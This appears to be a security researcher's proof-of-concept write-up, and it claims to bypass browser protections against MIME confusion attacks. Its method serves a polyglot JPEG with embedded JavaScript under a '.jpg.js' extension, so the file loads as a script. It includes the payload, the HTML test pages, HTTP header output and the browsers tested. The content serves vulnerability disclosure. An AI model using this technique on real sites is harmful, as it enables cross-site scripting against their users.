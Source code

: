 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

The image used in this PoC is as follows

![alt](https://ciber.sejalivre.org/WP/2x.jpg)


Available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


These are the image strings with the embedded JS code:

![alt](https://ciber.sejalivre.org/WP/xxd.png)


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: 

* Scenario 1: http://joomla.sejalivre.org/index.html

* Scenario 2: http://joomla.sejalivre.org/index2.html


## Scenario 1

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

Below is the browser blocking MIME confusion attack via its Content Security Policy:

![alt](https://ciber.sejalivre.org/WP/console1.png)


## Scenario 2 - The Bypass

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.

Note that the image file is the same as both scenarios, only its extension has been changed.

Below is the browser allowing MIME confusion attack by bypass in your Content Security Policy

![alt](https://ciber.sejalivre.org/WP/console2.png)






Here are HTTP Response on both scenarios:

```
$ curl -I http://joomla.sejalivre.org/2x.jpg
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:44 GMT
Content-Type: image/jpeg
Content-Length: 3318
Connection: keep-alive
Last-Modified: Thu, 19 Dec 2019 20:38:08 GMT
Expires: Thu, 20 Feb 2020 06:26:44 GMT
Cache-Control: max-age=5184000
Pragma: public
Accept-Ranges: bytes
```

```
$ curl -I http://joomla.sejalivre.org/2x.jpg.js
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:12 GMT
Content-Type: application/javascript
Content-Length: 3318
Connection: keep-alive
Vary: Accept-Encoding
Last-Modified: Fri, 20 Dec 2019 21:27:54 GMT
Expires: Tue, 21 Jan 2020 06:26:12 GMT
Cache-Control: max-age=2592000
Pragma: public
Accept-Ranges: bytes
```


## Browsers and servers tested

This PoC has been tested on the following browsers scenarios:

* Nginx (on cPanel 82)
* Apache 2.4.41
* Mozilla Firefox < 71.0 (Windows, Linux and Android)
* Google Chrome < 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium < 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 < (MacOS Catalina)
* Opera 60 - R3 < (Windows and Linux)
* Microsoft Edge < 44.18362.449.0 (Windows 10)
* Microsoft Internet Explorer < 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/Firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/Safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.png)

IE
![alt](https://ciber.sejalivre.org/WP/IE.png)

